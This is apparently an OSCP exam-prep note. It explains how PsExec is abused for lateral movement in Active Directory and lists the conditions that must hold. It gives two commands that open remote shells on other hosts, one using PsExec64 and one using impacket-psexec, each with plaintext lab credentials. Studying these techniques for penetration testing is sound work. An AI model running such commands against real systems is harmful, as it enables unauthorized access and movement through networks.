 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/o-active-directory-movement/2-ps-exec/"}
---
```


----------
### Theory:
- Versatile tool part of SysInternals suite
- Intended to replace telnet-like applications
- To abuse for lateral movement:
	- User that authenticates needs to be part of Administrator local group
	- ADMIN$ share available (default)
	- File and Printer Sharing turned on (default)
	- SMB connection through firewall
- Abuse works by:
	- Writing psexesvc.exe into C:\\Windows
	- Creating and spawning service
	- Running requested command as child process of psexesvc.exe

---------
### PsExec Remote Shell:
1. Get PsExec binary to host.
2. Run connection:
```
./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd
```

--------
### PsExec Remote Shell with Impacket:
```
sudo /usr/bin/impacket-psexec joe:Flowers1@172.16.189.11
```